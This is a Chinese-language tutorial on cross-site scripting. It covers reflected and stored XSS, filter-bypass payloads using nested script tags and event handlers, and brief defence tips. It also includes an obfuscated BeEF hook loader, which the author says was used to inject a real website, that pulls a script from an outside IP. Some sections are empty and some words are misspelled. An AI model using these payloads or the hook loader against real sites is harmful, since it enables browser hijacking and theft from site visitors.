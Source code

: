 # 02.XSS跨站点脚本

##2.1 XSS介绍

  Cross-Site Scripting(跨站点脚本)是Web中最广泛利用的一种漏洞之一，占据OWASP 2013年Web漏洞第三位，其广泛程度以及危害性可见一斑。
  
  XSS漏洞的原理，简而言之，就是：利用Web应用程序的漏洞，向页面中注入JavaScript恶意代码使其运行并进行破坏。 
  
###2.1.1 XSS分类
  
  XSS 主要分为两类，反射性XSS和存储型XSS。
  
  * __反射性XSS__
  
    反射性的恶意并不直接存储在目标系统存储中，攻击者利用漏洞构造指定格式的URL，利用欺骗等手段让受害人误点击URL从而访问目标页面并指定恶意脚本。
    例如：`http://webapp.com?content=<script>alert('XSS')</script>`

  * __存储型XSS__
  
    存储型XSS是指，攻击者将恶意代码存储到目标系统中，在系统向页面输入该内容时，脚本自动被执行。

###2.1.2 XSS产生原因
  
  有句话说的妙：___All Input is Evil！所有的输入都是恶意的！___这是防御式编程里必须设定的一个前提。XSS产出的原因是由于没有对用户的输入进行足够的校验和过滤，攻击者可以构造恶意脚本从而导致漏洞的发生。
  
  用户在input[type=text]框里输入`<script>alert('xss');</script>`，系统就毫不保留得在浏览器进行输输出，从而导致XSS漏洞，这是对合法用户极其不负责任的一种行为。
   
###2.1.2 XSS可能出现的地方

##2.2 XSS注入技巧（payload）

 **只提供思路，不适用所有情况，根据过滤规则的不同，选择构造不同的playload。**

###2.2.1 屌丝篇
  
####2.2.1.1直接上菜

```javascript
<script>alert('xss');</script>
```

如果你的系统可以让用户那么直接执行javascript脚本，那你就等着哭吧。

####2.2.1.2 过滤script标签

ok，稍微有一丁点安全意识的人都会把script标签过滤掉，过滤的规则会很多，注入一定要根据过滤的规则不同而选择不同的playload，这里尝试讲解两种情况的过滤：
  
  * 过滤script标签本身，内容不过滤
  * 过滤script标签以及包含的所有内容

加入playload如下：
```html
<script>alert('xss');</script><p>正常文档</p>
```

那么第一种情况过滤的结果为：
```html
alert('xss');<p>正常文档</p>
```

而第二种情况过滤的结果为：
```html
<p>正常文档</p>
```

如果系统没有对用户输入进行递归的xss过滤的话，那么第一种情况，我们的playload可以是：
```html
<scr<script>ipt>alert('xss');</scr</script>ipt>
```

而第二种情况，可以尝试这种技巧：
```html
<scr<script></script>ipt>alert('xss');</scr<script></script>ipt>
```

####2.2.1.3 标签事件注入

标签的事件**on(event)**是很容易被利用作为playload的。例如：
```html
<p onmouseover="alert('xss');">鼠标移动到这里触发js脚本！</p>
```

如果想让脚本自动执行，可以利用onload,onunload,onerror等时间，可以利用onfouse事件，例如:

```html
<input onfouse="alert('xss')" autofouse />
```

如果系统对标签事件进行了过滤，那么可以针对过滤的规则进行playload，例如**2.2.1.2**提到的技巧。

####2.2.1.4 /代替空格

####2.2.1.7 其他可以利用的标签

  * iframe
  * meta
  * style
  * embed
  * flash
  * applet
  * ...

###2.2.2 高帅富篇

####2.2.2.1 伪协议javascript:alert('xss')

####2.2.2.2 伪协议data:text/html

####2.2.2.3 绕过关键字过滤的技巧

以下是我成功注入一个网站的一段js代码，系统对window,document,createElement,js等关键字进行了过滤，但还是被成功注入了。
```javascript
if(typeof beef=='undefined'){
  var url='http://119.xxx.128.103:3000/hook.'+'j'+'s';
  dd=self['d'+'o'+'cument'];
  bf=dd['create'+'Element']('script');
  bf.async=true;
  bf.src=url;dd.body.appendChild(bf);}
}
```

####2.2.2.3  完恶之源eval

##2.3 XSS防注
  
    数据和架构分离：前端模板jQuery，ejs，ployer，$('<div/>')
    
    no el！use c:out
    
    http xss header
    
    白名单标签为主+黑名单为辅
    
    no external script
    
    RichTextArea 递归过滤
  
##2.4 XSS平台：beef-xss

参考文档：OWASP ,维基百科，百度百科
